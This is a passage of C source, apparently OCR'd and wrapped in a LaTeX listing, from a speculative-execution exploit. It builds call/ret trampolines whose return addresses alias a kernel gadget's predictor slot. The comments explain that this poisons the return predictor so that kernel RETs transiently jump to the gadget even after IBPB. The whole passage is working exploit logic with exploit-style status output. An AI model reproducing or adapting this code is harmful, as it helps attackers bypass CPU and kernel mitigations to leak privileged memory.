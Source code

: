 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
        // Compute return address after the call instruction (i.e. target of first RET)
        uint64_t ra = (uint64_t)(tramp + 5);                    // return address after CALL
        
        ////////////////////////////////////////////////////////////////////////////////
        // Return address (RA) = address immediately after the CALL
        // This is the address the CPU will speculate toward when a RET occurs
        //
        // The return predictor (e.g., RSB or BTB) doesn't use full 64-bit VAs.
        // Instead, it indexes using a hash or the low N bits (-> 12-20 bits).
        //
        // The goal is to make RA collide with the kernel gadget's predictor slot,
        // so that speculative RETs in the kernel (post-IBPB) will transiently
        // jump to the gadget -> even though architecturally they shouldn't.
        //
        // Therefore, we apply an ALIAS_MASK to both:
        // ra & ALIAS_MASK -> the return address from the trampoline
        // gadget_addr & ALIAS_MASK -> the address of our kernel gadget
        //
        // If they match: the predictor learns that return addresses in this
        // index class are likely -> this builds pressure toward the gadget.
        //
        // If they don't match: skip this candidate.
        ////////////////////////////////////////////////////////////////////////////////

        if ((ra & ALIAS_MASK) != (gadget_addr & ALIAS_MASK))
            continue;

        tramp[0] = CALL_OPCODE;       // call rel32 (relative target -> 32-bit signed offset) -> ret_stub @ +6
        *(int32_t *)(tramp + 1) = (int32_t)((tramp + 6) - (tramp + 5)); // Calculate rel32 offset for call
        tramp[5] = RET_OPCODE;        // First RET -> returns to RA (alias)
        tramp[6] = RET_OPCODE;        // ret_stub: return to next alias
        tramp[7] = RET_OPCODE;        //Optional RET padding (safe NOP)

        __alias_tbl[found++] = (uint64_t)tramp;   // Save entry point into alias table
    }

    // If we couldn't build enough valid trampolines, exit
    if (found < TRAMPOLINE_COUNT) {
        fprintf(stderr, "[-] Only %d/%d trampolines matched mask 0x%lx (gadget bits 0x%lx)\n",
                found, TRAMPOLINE_COUNT, (unsigned long)ALIAS_MASK,
                (unsigned long)(__pbinc_kernel_gadget_addr & ALIAS_MASK));
        exit(1);
    }
    printf("[+] Built %d trampolines; alias mask 0x%lx\n", found, (unsigned long)ALIAS_MASK);
    return region; // keep region mapped/executable
}
\end{lstlisting}
\end{document}
